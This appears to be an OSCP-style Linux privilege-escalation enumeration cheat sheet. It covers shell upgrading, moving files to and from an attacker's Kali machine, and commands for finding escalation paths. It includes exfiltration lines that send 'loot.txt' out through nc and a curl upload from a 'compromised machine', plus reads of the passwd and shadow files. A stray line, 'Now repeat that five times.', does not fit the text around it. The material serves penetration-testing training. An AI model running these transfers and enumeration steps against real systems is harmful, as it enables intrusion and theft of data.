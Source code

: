 # Linux Enumeration

I will do **Manual Enumeration** before running LinPEAS or lse or pspy. 

Now repeat that five times.

Many OSCP boxes are designed in a way where linPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a linux host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc (which should be native on a linux host) or a msfvenom payload. Also do the following to upgrade a shell to tty using python (or python3)

```bash
# on the target host
which python python2 python3 # check which python exist. Then use the relevant version below

python -c "import pty;pty.spawn('/bin/bash');"

python3 -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/sh");

```

## How to transfer files from Kali to Linux

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using /tmp, /dev/shm, /var/tmp (default global writable directories) or if you land a shell as a user, you can use that user's home directory.

```bash
wget http://<kali ip>/<file>
```

On the off chance that you somehow cant use wget, check if your current user has its path variables set correctly

```bash
# on the target

echo $PATH 

# In general, should look something like this: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
# if somehow this is empty then just set the Path variable

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

echo $PATH # to verify

```

Ok I really dont have wget! So what now? If you ssh-ed into the host, you can use scp (Secure Copy Paste)

```bash
# on your kali

scp [OPTIONS] [[user@]src_host:]file1 [[user@]dest_host:]file2

OPTIONS
-r recursive copy
-q quiet mode

For files we can use wildcard such as *.php

# if need diff port and id_Rsa keys, put them in front for it to work

# the below examples uses id_rsa to login and transfers linpeas.sh from kali to the /home/anita path

scp -P 2222 -i id_rsa linpeas.sh anita@192.168.208.245:/home/anita

```

If not SSH, you can always see the ancient method of using nc to file transfer.

Transferring evil.sh from kali to target
```bash
# on kali
nc -lvnp 80 < evil.sh
# on target
nc <kali ip> 80 > evil.sh
```
Transferring loot.txt from target to kali
```bash
# on kali
nc -lvnp 80 > loot.txt
# on target
nc <kali ip> 80 < loot.txt
```

Don't forget about curl
```bash
curl http://192.168.100.200/file.txt > file.txt
```

## Transferring files from Linux to Kali

If you need to upload a file back to your Kali machine, you can either opt for the nc method above or use a python [upload server](https://pypi.org/project/uploadserver/) (requires python 3.9 and above).
It also has a GUI interface if you browse to the page

Install on your Kali machine using
```bash
pip install uploadserver
```

Depending on how python is configured on your machine, you might need to use `python3` instead
```bash
python -m uploadserver
```

The default port for uploadserver is 8000, but it can be set in the same manner as http.server by indicating the port number :
```bash
python -m uploadserver 4444
```

Upload with curl using the compromised machine
```powershell
curl -X POST http://192.168.100.200:8000/upload -F 'files=@suspicious_file.txt'
```

The file will be uploaded to the directory where you ran the `uploadserver` module

-------------------
## Checking for the Quick Wins

1) The first few commands you SHOULD ALWAYS RUN is this:

```bash
# check your group
id
# check your history
history
# check your sudo powers
sudo -l
# check your environment variables
env
```

If you see groups like docker, backup, disk, adm, or anything that is just not your username. These are things that are either PE vectors or things you should investigate as being in those groups can give you certain powers. Note down!

sudo -l can reveal quick wins and more often than not THE PE vector. 

env to check for hardcoded credentials

2) Check Kernel Version. IF it looks ancient, then it might be a kernel exploit

```bash
uname -a 
cat /etc/issue
cat /etc/os-release
```

3) Next is user enumeration and user home directories enumeration

```
cat /etc/passwd

ls -la /etc/passwd /etc/shadow  # might as well see if you can write to passwd or read shadow for an easy win

# ls -laRH lists all files recursively (including hidden) and outputs in human readable form. This is a godly command to quickly spider down directories

# you ls -laRH /home so that you can quickly see what files are in each user's directory (provided you can access them)

ls -laRH /home
```

4) Next thing you should do is to enumerate the world writable directories. Any thing inside that is not default should be investigated.

```bash
ls -la /tmp /opt /dev/shm /var/tmp
# the below command searches for all world writable directories. Any non-default directories are worth investigating
find / -writable -type d 2>/dev/null
# this version searches for all world writable files. Any non-default directories are worth investigating
find / -writable -type f 2>/dev/null
```

5) Check out the cron jobs. Do note that your user may not have privs to see root's cron jobs so a lack of results does not necessary mean that there is no cron jobs! 

```bash
crontab -l # this checks your own cron jobs. Usually there is nothing and plus you cant really elevate from this.
ls -lah /etc/cron.d
cat /etc/crontab
# the below might output information that pspy somehow misses. I am not sure why
systemctl status cron
```

6) Take a look at running processes and look for anything that doesnt look default. If you do more boxes, you will see which are default processes and which are not:

```bash
ps auxww
```

You also want to check for any locally hosted services
```bash
ss -antp
netstat -antp
```

7) Last thing you should do is to check out /var/www/html if there are web services. What you are looking for are config files that may contain hard-coded credentials. You can use the find command to look for things

```bash
find / -name *.conf, *.yml -type f 2>/dev/null
# this searches for a particular string in all files recursively from the specified directory. Might take a while to run though
grep -Horn <text> <dir>
```

## No Shell but can read files via webshell or some other blackmagic

https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html

```bash
# if you have Remote File Read (but cant get a shell) you can try to read the following files:

/proc/self/cmdline

/proc/<pid>/cmdline # can write a simple script to iterate through all PIDs

/proc/sched_debug
```

## AutoEnum

for lse.sh I find good results with the following command which is more verbose than the basic version

```bash
./lse.sh -l1
```

for pspy, do add the following flag. Run pspy if you suspect that root is running some cron job that you cant see from your current user's permission.

This is similiar to scheduled tasks in Windows where if your user may not be privileged enough to see root cron jobs even after you check out /etc/crontab

```bash
./pspy64 -pf  # run -f to see file commands  such as cd or else you will miss stuff!

# let it run a couple of minutes just to see if there is anything
```